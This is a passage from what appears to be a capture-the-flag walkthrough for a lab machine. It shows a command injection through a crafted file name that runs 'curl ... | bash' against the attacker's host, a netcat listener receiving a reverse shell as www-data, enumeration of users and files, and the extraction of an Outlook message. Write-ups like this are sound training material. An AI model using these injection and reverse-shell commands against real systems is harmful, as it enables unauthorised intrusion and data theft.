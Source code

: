 Now rename the file again, this time to execute the downloaded reverse shell:
```
❯ mv curl\ 10.10.14.198:8000\ -o\ rev\| 'bash rev|' 
```
But when I upload this file, I get no callback. Maybe the `rev` file gets deleted before execution? Anyway, I'm going to try to execute the shell script directly after downloading it:
```
mv curl\ 10.10.14.198:8000\ -o\ rev\| 'curl 10.10.14.198:8000 | bash|'
```

And when I upload this, I receive a connection back:
```
❯ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.198] from (UNKNOWN) [10.10.11.197] 49972
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

## User

I can't do much with the *www-data* user. There is another user, `smorton`:
```
cat /etc/passwd | grep bash 
root:x:0:0:root:/root:/bin/bash
smorton:x:1000:1000:eForenzics:/home/smorton:/bin/bash
```
Looking at files owned by smorton that are readable by www-data, I came across an interesting file, `Windows Event Logs for Analysis.msg`, which is an Outlook message:
```
$ find / -user smorton 2>/dev/null  | grep -v -E "/proc|/sys|/run"
/home/smorton
/tmp/tmux-1000
/usr/local/investigation/Windows Event Logs for Analysis.msg
/dev/pts/1
/dev/pts/0
$ file /usr/local/investigation/Windows\ Event\ Logs\ for\ Analysis.msg 
/usr/local/investigation/Windows Event Logs for Analysis.msg: CDFV2 Microsoft Outlook Message
```

 I am going to transfer the file to my local machine. There is a very useful command line tool for transforming Outlook messages to .eml format, called [msgconvert](https://manpages.ubuntu.com/manpages/bionic/man1/msgconvert.1p.html) from `libemail-outlook-message-perl` pacakge. All I have to do is run the tool with the Outlook message as input, and I get an EML file!:
 ```
 ❯ msgconvert windows_event_logs.msg 
 ❯ file windows_event_logs.eml
windows_event_logs.eml: news or mail, ASCII text, with CRLF line terminators
```
Now the file is in plaintext format, and I can read it. The message asks Steve to inspect some logs, which are part of this email as an attachment:
>Hi Steve,
>
>Can you look through these logs to see if our analysts have been logging on to the inspection terminal. I'm concerned that they are moving data on to production without following our data transfer procedures. 
>
>Regards.
>Tom
